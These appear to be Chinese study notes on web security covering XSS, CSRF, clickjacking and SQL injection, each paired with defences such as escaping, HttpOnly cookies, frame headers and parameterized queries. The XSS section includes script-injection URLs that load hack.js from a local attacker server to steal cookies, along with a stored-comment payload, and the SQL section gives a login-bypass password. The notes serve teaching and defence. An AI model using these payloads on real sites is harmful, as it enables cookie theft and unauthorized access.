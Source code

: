 我们必须理解这么几个方面：sql注入、xss、csrf、cookie安全、密码安全等等。
sql注入，要理解sql注入的场景，它的原理是什么，当前的数据库的解决方案是什么？（不知道密码，利用一些特定的sql语句，返回用户信息）
xss攻击，常见的攻击场景，什么类型的网站容易被xss攻击，整个流程的原理是什么？
csrf攻击，其实就是一个钓鱼网站，要理解为什么会收到攻击，应该采取什么策略进行防御。
cookie安全，要理解为什么用token，优势等。
密码安全，主要是用户登陆，用户数据提交，加密，存入数据库的一整个流程。
其次，其实还有http和https的问题等等。

# XSS

[不错的](https://my.oschina.net/u/4446873/blog/3229798/print)

概念: Cross Site Scripting 跨站脚本攻击

比如，一个博客网站，我发表一篇博客，其中嵌入 script脚本 脚本内容 获取cookie，发送到我的服务器(服务端配合跨域)，
发布这篇博客，有人查看，轻松拿到了访问者的cookie

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过
存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

1. XSS 攻击分类

```
// 普通 http://localhost:3000/?from=china // alert尝试 http://localhost:3000/?from=<script>alert(3)</script> // 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script> // 短域名伪造 https://dwz.cn/ // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

2. 存储型 - 存储到 DB 后读取时注入

```
// 评论 <script>alert(1)</script> // 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

3. 防范手段

```
 ejs转义小知识
<% code %>用于执行其中javascript代码； <%= code %>会对code进行html转义； <%- code %>将不会进行转义
```

- head

```
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```

0 禁止 XSS 过滤。
1 启用 XSS 过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部
分）。
1;mode=block 启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1; report= (Chromium only)
启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规
报告。

- CSP

* 转义字符 尖括号啊单双引号做一些转义 就不会执行了 比如我们的script标签
* 黑名单
  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```
function escape(str) { str = str.replace(/&/g, '&amp;') str = str.replace(/</g, '&lt;') str = str.replace(/>/g, '&gt;') str = str.replace(/"/g, '&quto;') str = str.replace(/'/g, '&#39;') str = str.replace(/`/g, '&#96;') str = str.replace(/\//g, '&#x2F;') return str }
```

富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情
况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在
太多，更加推荐使用白名单的方式。

- 白名单

```
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)

```

- HttpOnly Cookie
这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应 用程序在设置 cookie 时，将其属性设为
HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
<!-- response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly") -->

# CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱危险站点 B
  (B 站点要求访问站点 A)。
- 站点 A 没有做任何 CSRF 防御

CSRF 攻击危害

- 利用用户登录态
- 用户不知情  利用登录状态
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉


防御 
* 禁止第三方网站带Cookie - 有兼容性问题
* Referer Check - Https不发送referer  来源referer  
* 验证码

# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，
并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御？
* X-FRAME-OPTIONS
用 iframe 嵌套的点击劫持攻击。
该响应头有三个值可选，分别是
  DENY，表示页面不允许通过 iframe 的方式展示
  SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
  ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
ctx.set('X-FRAME-OPTIONS', 'DENY')


# SQL注入
```
// 填入特殊密码 1'or'1'='1 // 拼接后的SQL SELECT * FROM test.user WHERE username = 'laowang' AND password = '1'or'1'='1'
```
防御？
所有的查询语句建议使用数据库提供的参数化查询接口**，参数化的语句使用参数而不是将用户输入变量嵌
入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参
数。

```
// 错误写法 const sql = ` SELECT * FROM test.user WHERE username = '${ctx.request.body.username}' AND password = '${ctx.request.body.password}' `console.log('sql', sql) res = await query(sql) // 正确的写法 const sql = ` SELECT * FROM test.user WHERE username = ? AND password = ? `console.log('sql', sql, ) res = await query(sql,[ctx.request.body.username, ctx.request.body.password])
```

严格限制Web应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的
减少注入攻击对数据库的危害
后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
对进入数据库的特殊字符（'，"，\，<，>，&，*，; 等）进行转义处理，或编码转换**。基本上所有的后端
语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash._escapehtmlchar 库。


# 请求劫持